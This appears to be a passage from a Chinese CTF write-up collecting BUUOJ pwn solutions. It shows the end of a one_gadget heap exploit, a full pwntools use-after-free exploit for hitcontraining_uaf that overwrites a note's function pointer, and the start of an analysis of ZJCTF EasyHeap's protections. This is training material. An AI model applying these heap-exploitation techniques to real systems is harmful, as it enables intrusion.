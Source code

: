 ```
add(0x60) # 7 / fake

payload = 'a' * 0x13 + p64(one)
edit(7, len(payload), payload)
add(0x10)

io.interactive()
```



## 0x01 hitcontraining_uaf

```
from pwn import *

io = remote('node3.buuoj.cn',27690)
# io = process('./hacknote')

def add(size, content):
    io.sendlineafter('Your choice :', str('1'))
    io.sendlineafter('Note size :', str(size))
    io.sendlineafter('Content :', content)

def delete(index):
    io.sendlineafter('Your choice :', str('2'))
    io.sendlineafter('Index :', str(index))

def show(index):
    io.sendlineafter('Your choice :', str('3'))
    io.sendlineafter('Index :', str(index))

add(16, 'aaaa')
add(16, 'aaaa')

delete(0)
delete(1)

add('8', p32(0x08048945))

show(0)

io.interactive()
```



## 0x02 [ZJCTF 2019]EasyHeap

检查一下保护机制，开启了canary和NX保护，RELRO是Partial RELRO，说明got表可写。

反编译一下，是一道菜单题，`create_heap()` 里利用了一个heaparray来存储用户申请的chunk，一共可以存储十个chunk。这里根据申请的大小来决定读取数据的长度，没有溢出。
